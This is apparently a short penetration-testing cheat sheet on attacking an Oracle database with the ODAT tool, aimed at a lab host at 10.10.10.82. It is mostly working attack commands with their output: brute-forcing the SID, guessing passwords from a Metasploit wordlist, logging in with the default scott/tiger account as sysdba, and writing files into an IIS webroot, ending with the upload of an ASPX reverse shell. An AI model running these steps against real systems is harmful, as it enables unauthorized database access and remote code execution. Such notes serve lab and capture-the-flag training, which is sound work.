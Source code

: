 # Oracle
----------

## ODAT
Enumerating Oracle DB on port 1521:

Bruteforce SID:
```bash
./odat.py sidguesser -s 10.10.10.82 -p 1521
[+] 'XE' is a valid SID.
```

Once we have a valid SID, we can brute force user accounts.
Wordlist is very important here.
Copy the default metasploit wordlist into  /opt/odat/accounts .
```bash
./odat.py passwordguesser -s 10.10.10.82 -d XE

Valid credentials found: scott/tiger.
```

Once we have creds we can log in using sqlplus:
```bash
sqlplus64 scott/tiger@10.10.10.82:1521/XE
```

Log in with sudo privileges:
```bash
sqlplus64 scott/tiger@10.10.10.82:1521/XE 'as sysdba'
```

If we have write privileges, we can try uploading a file and accessing it from a webserver:
```bash
./odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile C:\\inetpub\\wwwroot cbbn.txt cbbn.txt
```

Upload a aspx revershell :
```bash
/odat.py utlfile -s 10.10.10.82 --sysdba -d XE -U scott -P tiger --putFile C:\\inetpub\\wwwroot revshell.aspx revshell.aspx
```